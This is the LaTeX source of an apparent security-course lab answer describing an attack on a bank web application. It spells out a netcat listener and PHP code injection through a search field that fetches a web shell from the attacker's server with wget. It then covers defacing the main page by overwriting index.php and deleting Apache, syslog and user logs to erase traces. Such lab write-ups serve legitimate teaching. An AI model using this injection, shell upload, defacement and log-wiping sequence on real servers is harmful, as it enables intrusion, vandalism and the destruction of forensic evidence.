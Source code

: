 \documentclass[12pt]{report}
\begin{document}
	\paragraph*{7.}{\bf Suppose you are an anonymous attacker:
		\begin{itemize}
			\item Upload a web shell on the victim server and show that you can take control of the server.
			\item Deface the main bank page.
			\item Clear possible traces that could lead to you.
		\end{itemize} }
	
	To upload a shell,\\
	
	In attacker's machine: {\sf nc -v -n -l -p 1234}.
	In victim's machine, we run this command using the search box: {\sf '.system("wget -N 0.0.0.0:5000/static/shell.php").'}\\
	From the attacker's machine we are able to access the shell.
	
	\begin{figure}[H]
		\texttt{[image: images/2\_7\_1.jpg]}
		\caption{shell uploaded.}
	\end{figure}
	
	To Deface the main page,\\
	
	In the attacker's end, there was a index.php file made in {\sf /var/www/html/static/} folder. Attacker will simply run 'wget' to download that file on victim's machine, which will replace victim's index.php.\\
	Command to use in search field: {\sf '.system("wget -N 0.0.0.0:5000/static/index.php").'}
	
	\begin{figure}[H]
		\texttt{[image: images/2\_7\_2.jpg]}
		\caption{Webapp defaced.}
	\end{figure}
	
	To clear possible traces,\\
	
	Traces can be generally found in log files. Attacker can remove those logs by including 'rm' commands. Also the 'index.php' and 'shell.php' could be deleted.\\
	Command to delete files: \\
	{\sf '.system("rm /var/log/apache2/*").'}\\
	{\sf '.system("rm /var/log/syslog").'}\\
	{\sf '.system("rm /var/log/user.log").'}\\
	{\sf '.system("rm /var/www/html/shell.php").'}\\
	{\sf '.system("rm /var/www/html/index.php").'}\\
\end{document}
